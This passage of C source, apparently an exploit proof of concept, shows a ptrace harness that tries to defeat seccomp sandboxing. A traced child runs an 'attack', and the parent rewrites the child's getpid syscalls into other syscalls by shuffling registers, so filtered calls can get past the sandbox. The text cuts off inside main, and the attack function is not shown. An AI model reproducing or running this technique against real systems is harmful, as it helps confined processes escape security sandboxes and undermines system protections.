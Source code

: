 ```c
	return 0;
}

void dumpregs(int pid)
{
	struct user_regs_struct regs;
	if(ptrace(PTRACE_GETREGS, pid, NULL, &regs) == -1)
		return;
	printf("rip %016llx ", regs.rip);
	printf("rsp %016llx ", regs.rsp);
	printf("efl %016llx\n", regs.eflags);
	printf("rax %016llx orig %016llx ", regs.rax, regs.orig_rax);
	printf("rdi %016llx\n", regs.rdi);
	printf("rsi %016llx ", regs.rsi);
	printf("rdx %016llx ", regs.rdx);
	printf("rcx %016llx\n", regs.rcx);
	printf("r8 %016llx ", regs.r8);
	printf("r9 %016llx ", regs.r9);
	printf("r10 %016llx\n", regs.r10);
	printf("\n");
}

int main(int argc, char **argv)
{
	struct user_regs_struct regs;
	int pid;

	if(argc != 3) {
		printf("bad usage\n");
		exit(1);
	}

	switch((pid = fork())) {
	case -1: perror("fork"); exit(1);
	case 0: /* child: get traced and do our attack */
		ptrace(PTRACE_TRACEME, 0, NULL, NULL);
		kill(getpid(), SIGSTOP);
		attack(argv[1], argv[2]);
		exit(0);
	}

	/* parent: translate getpid calls into other syscalls. max 4 args. */
	waitpid(pid, 0, 0); /* wait for attach */
	while(sysStep(pid) != -1) {
		/* potentially tamper with syscall */
		if(ptrace(PTRACE_GETREGS, pid, NULL, &regs) == -1) {
			perror("ptrace getregs");
			break;
		}

		/*
		* note: we wont get a syscall-enter-stop for any
		* seccomp filtered syscalls, just the syscall-exit-stop.
		*/
		if(regs.rax != -ENOSYS) /* not a syscall-enter-stop ! */
			continue;


		if(regs.orig_rax == SYS_getpid) {
			regs.orig_rax = regs.rdi;
			regs.rdi = regs.rsi;
			regs.rsi = regs.rdx;
			regs.rdx = regs.r10;
```